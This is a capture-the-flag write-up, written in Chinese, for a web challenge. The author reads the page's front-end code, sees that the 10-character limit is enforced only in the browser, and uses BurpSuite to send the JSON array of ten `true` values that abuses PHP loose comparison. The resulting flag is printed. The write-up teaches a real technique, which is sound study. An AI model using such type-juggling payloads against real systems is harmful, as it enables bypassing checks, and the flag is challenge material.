





靶机打开是一个输入框：

尝试输入一些数字发现输入长度必须是10，比较容易猜到应该是输入某些字符与后端的固定字符完全一致时，CNSS娘的观点应该会返回flag。比如我输入10个1就返回如图：

但是如果我输入的字符不足10个则返回：

但问题是组合很多，不可能是暴力破解。再根据题目给的提示网址(https://www.php.net/manual/en/types.comparisons.php) ，打开是解释php弱比较的。所以思路大概率是用弱比较这个漏洞得到flag。

我们点击f12查看一下网页源代码
```html
<div class="page-header">
<h1>当CNSS娘遇见...</h1>
<p class="lead">你能成为CNSS娘的知音吗</p>
<form id="lottery-form">
	<div class="form-group">
		<label for="words">输入你想说的</label>
		<input type="text" class="form-control" id="words" name="words" placeholder="ifancycnss" maxlength="10" pattern="[A-Za-z0-9,]*">
	</div>
	<button type="submit" class="btn btn-primary">Submit</button>
</form>
</div>
```
这段代码可以得到的信息是要让我们输入长度为10的字符，并赋予words变量，还限制只能是 `A-Za-z0-9` 这个范围的字符(但它们只约束浏览器页面。使用控制台、BurpSuite 或其他 HTTP 客户端时，`words` 可以传入布尔值、数组、数字、对象和 `null`。)。我们继续往下看
```html
<script>
$(document).ready(function() {
	$("#lottery-form").submit(function(event) {
		event.preventDefault();
		$.ajax({
			type: "POST",
			url: "check.php",
			contentType: "application/json",
			data: JSON.stringify({
				words: $("#words").val()
			}),
			dataType: "json",
			success: function(response) {
				if (response.success) {
					$("#dialogBody").html(`
						<div style="text-align: center;">
							<p>你们的契合度: ${response.matchingCount * 10}%</p>
							<p>CNSS娘的观点: ${response.randomString}</p>
							<p>${response.msg.replace(/\\n/g, '<br>')}</p>
							
						</div>
					`);
				} else {
					$("#dialogBody").html("err: " + response.message);
				}
				$("#dialog").modal('show');
			},
			error: function() {
				$("#dialogBody").html("err");
				$("#dialog").modal('show');
			}
		});
	});
});
</script>
```
这段代码我们得到的信息是它用id为words的字符串赋值给js对象上的words，然后以json的格式，用POST方法发送到相对目录下的check.php，而它发送的内容格式是{"words": xxxx}。到这里我们的思路大致清晰了，我们可以用burpsuite(一个软件)拦截网页请求，然后把请求改成如下：
```
POST /check.php HTTP/1.1
host:207a43ea3258f755f997e1ff02aa3554.chal.cnss.studio 
content-type:application/json
{"words":[true,true,true,true,true,true,true,true,true,true]}
```
如图：

这里的 **host** 要改成你得到的链接网址，然后发送，然后浏览器就会返回如图内容：

我们就得到了flag:
```
cnss{ZCBQbuMsXJ3d7phu_05DpizepvjL}
```
